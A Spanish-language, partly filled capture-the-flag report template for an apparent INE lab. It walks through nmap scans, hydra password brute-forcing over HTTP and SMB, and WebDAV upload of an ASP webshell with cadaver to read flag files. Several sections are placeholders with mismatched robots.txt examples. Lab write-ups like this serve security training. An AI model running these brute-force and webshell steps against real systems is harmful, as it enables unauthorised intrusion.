





# Informe de Evaluación de Seguridad
#### Titulo de la maquina/ctf

---

## 1. Resumen


### Resultados generales

- Flags obtenidas: 
- Tipo de hallazgos: 
- Dificultad: **Baja/Media/Alta**

## 2. Alcance y Metodología

### Alcance

- Objetivo: `IP`
- Tipo de evaluación: Black-box/Gray-box/White-box
- Sin credenciales proporcionadas
- Entorno de laboratorio controlado

### Metodología aplicada

El análisis se realizó combinando técnicas de:

- 

### Flags

- 

### Herramientas utilizadas

- 

## 3. Hallazgos

### Flag 1 - Contraseña débil

El usuario "bob" podría no haber elegido una contraseña segura. Prueba contraseñas comunes para obtener acceso al servidor donde se encuentra la bandera.

#### Impacto

Ejemplo:
Aunque no es una vulnerabilidad directa, puede facilitar:
- Enumeración de endpoints ocultos
- Reducción del tiempo de reconocimiento para un atacante

#### Recomendación
Ejemplo:
- Evitar incluir rutas sensibles en `robots.txt`
- Asumir acceso público a este archivo

#### Resolución

Encontramos varios puertos abiertos durante el primer escaneo con `nmap`, siendo los mas interesantes los relacionados con SMB y con IIS.

```console
root@INE# nmap -sS -PN -T4 -p- target1.ine.local
root@INE# nmap -sV -sC --script http-enum target1.ine.local
```

Durante el segundo escaneo con la intención de obtener más información sobre los servicios, no encontramos mucho sobre el puerto 80, pero si accedemos desde el navegador podemos comprobar que nos muestra un formulario de login.



Gracias a la pista proporcionada por la flag, sabemos que un usuario del sistema se llama bob, por lo que podemos intentar obtener sus credenciales.

```console
root@INE# hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-09-05 04:20:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1010 login tries (l:1/p:1010), ~64 tries per task
[DATA] attacking http-get://target1.ine.local:80/
[80][http-get] host: target1.ine.local   login: bob   password: password_123321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-09-05 04:20:16
```

Llegados a este punto no tenemos mucha más información sobre el servidor web, por lo que podemos intentar enumerar los directorios que puedan existir.

```console
root@INE# dirb http://target1.ine.local -u bob:password_123321                                                
.
.
---- Scanning URL: http://target1.ine.local/ ----
==> DIRECTORY: http://target1.ine.local/aspnet_client/                                                 
==> DIRECTORY: http://target1.ine.local/webdav/  
```

Si accedemos al directorio `/webdav` encontramos la primera flag.



### Flag  - Explotación de webdav

descripcion

#### Impacto

Ejemplo:
Aunque no es una vulnerabilidad directa, puede facilitar:
- Enumeración de endpoints ocultos
- Reducción del tiempo de reconocimiento para un atacante

#### Recomendación
Ejemplo:
- Evitar incluir rutas sensibles en `robots.txt`
- Asumir acceso público a este archivo

#### Resolución

Sabiendo que WebDAV está activo en el servidor, podemos usar `cadaver` para cargar un payload en el sistema y así obtener una shell con la que podamos acceder a `C:`, ya que la pista nos indica que la flag se encuentra aquí.

```console
root@INE# cadaver http://target1.ine.local
Authentication required for target1.ine.local on server `target1.ine.local':
Username: bob
Password: 
dav:/> put /usr/share/webshells/asp/webshell.asp
```

A continuación, accedemos al payload desde el navegador y buscamos nuestra flag con `dir C:\`.



Para acceder al contenido podemos usar el comando `type C:\flag2.txt`

### Flags 3 y 4  -

descripcion

#### Impacto

Ejemplo:
Aunque no es una vulnerabilidad directa, puede facilitar:
- Enumeración de endpoints ocultos
- Reducción del tiempo de reconocimiento para un atacante

#### Recomendación
Ejemplo:
- Evitar incluir rutas sensibles en `robots.txt`
- Asumir acceso público a este archivo

#### Resolución

Gracias a la pista de la flag 3, sabemos que en este segundo objetivo existe un servicio SMB. Podemos lanzar un escaneo de puertos para confirmar si está en el puerto por defecto y una enumeración rápida para obtener algo de información adicional.

```console
root@INE# nmap -sS -PN -T4 -p- target2.ine.local
root@INE# nmap -sV -sC target2.ine.local
```

Obtenemos poca información relevante con `nmap`. Intentamos obtener algo más con `enum4linux`, pero tampoco es muy efectivo.

```console
root@INE# enum4linux -A target2.ine.local
```

Como no encontramos nada relevante, el siguiente paso es tratar de obtener credenciales mediante fuerza bruta. Es posible usar `hydra` y `smb_login`, siendo la primera más rápida.

```console
root@INE# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target2.ine.local smb
```



Como hemos obtenido credenciales de varios usuarios, quizá podamos usarlas para conectarnos al sistema a través de `psexec`. Para ello podemos usar el módulo disponible en metasploit.



## 4. Conclusiones

Comentar lo aprendido

- 
